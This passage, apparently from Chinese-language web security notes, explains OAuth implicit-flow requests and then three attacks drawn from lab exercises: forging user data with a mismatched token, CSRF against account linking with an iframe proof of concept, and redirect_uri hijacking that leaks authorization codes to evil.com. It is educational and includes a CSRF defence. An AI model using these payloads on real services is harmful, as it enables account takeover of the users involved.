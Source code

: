 ```http
GET /authorization?client_id=12345&redirect_uri=https://client-app.com/callback&response_type=token&scope=openid%20profile&state=ae13d489bd00e3c24 HTTP/1.1
Host: oauth-authorization-server.com
```
#### 访问令牌授予
区别在于OAuth 服务会将用户的浏览器重定向到授权请求中指定的浏览器。但是，它不会发送包含授权代码的查询参数，而是将访问令牌和其他特定于令牌的数据作为 URL 片段发送。
```http
GET /callback?access_token=z0y9x8w7v6u5&token_type=Bearer&expires_in=5000&scope=openid%20profile&state=ae13d489bd00e3c24 HTTP/1.1
Host: client-app.com
```
#### 接口调用
客户端应用程序成功从 URL 片段中提取访问令牌后，可以使用它来对 OAuth 服务的终结点进行 API 调用。与授权代码流不同，这也通过浏览器进行.
```http
GET /userinfo HTTP/1.1
Host: oauth-resource-server.com
Authorization: Bearer z0y9x8w7v6u5
```
## OAuth Attack
### 隐式授权类型的实现不当
在隐式授权时客户端根据从认证服务器得到的Token来得到用户的相关信息后则需要为用户生成一个Cookie来保持用户的登陆状态,而生成Cookie时则会将得到的相关用户信息发送到服务端,服务端根据用户信息返回相应的Cookie,而这时一般都会携带用户信息如邮箱,用户名等还包括得到的Token,而如果没有校验Token与用户信息是否匹配的话,则可以直接修改用户信息为受害者的相关信息和不匹配的Token从而接管账户.
### OAuth中的CSRF
在一些应用中提供将第三方账号绑定在自己账户上,从而可以直接使用第三方账号登陆,但如果在绑定时没有使用state参数或者其它CSRF保护,那么就可以将受害者的账户绑定在攻击者的第三方账户上,从而攻击者可以从第三方账户登录受害者账户.
1. 绑定第三方认证服务时,得到一个授权Code.
```http
GET /auth?client_id=rcyl1g4qylixovfrmyjhi&redirect_uri=https://0acb007c03168fcbc05002fd006d0025.web-security-academy.net/oauth-login&response_type=code&scope=openid%20profile%20email HTTP/1.1
```
```http
HTTP/1.1 302 Found
Location: https://0acb007c03168fcbc05002fd006d0025.web-security-academy.net/oauth-login?code=QfonkH2GOMKNn2wkQsbQ_cx1iVo_wig5-kpm6LGKICE
```
2. 客户端使用该Code请求相关数据,绑定到该会话用户.
```http
GET /oauth-login?code=QfonkH2GOMKNn2wkQsbQ_cx1iVo_wig5-kpm6LGKICE HTTP/1.1
Host: 0acb007c03168fcbc05002fd006d0025.web-security-academy.net
Cookie: session=e9QiHH5eregTcbaUK3VglcWI1eUcHNHX
```
但过程中未校验该code与当前会话Cookie用户是否匹配,则可以将Code替换为自己的第三方Code,将该url发送给受害者,利用CSRF受害者加载后,则我们自己的第三方账户与受害者账户成功绑定,则可以通过自己的第三方账户登录受害者账户.  
poc:
```html
<iframe src="https://client-server.com/oauth-linking?code=STOLEN-CODE"></iframe>
```
防御方案:  
在通过授权码登录时还应检查参数与第一步请求授权码的state参数是否一致或者添加CSRF Token参数.
### 通过redirect_uri劫持账户
当用户已经登录过第三方服务时,客户端会直接自动利用该合法会话向第三方服务请求授权码,如果在这个过程中授权码回调的url可以会被任意修改的话,那么则可能会导致授权码泄露,从而导致攻击者直接凭借泄露的授权码登录受害者账户.
1. 客户端向第三方服务请求授权码,因为用户已经登录到了第三方服务,所有该请求会携带第三方服务的合法cookie,用户则不用再次手动登录第三方服务.
```http
GET /auth?client_id=l54nov94569dplnp2qolo&redirect_uri=https://evil.com/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0a100017030b72c7c04970ea02d7001b.web-security-academy.net
Cookie: _session=fVwdTrTg4ek6J6uKrL6G0; _session.legacy=fVwdTrTg4ek6J6uKrL6G0
```
如果其中的redirect_uri回调地址没有任何限制或者那么授权码将会泄露到evil.com上.
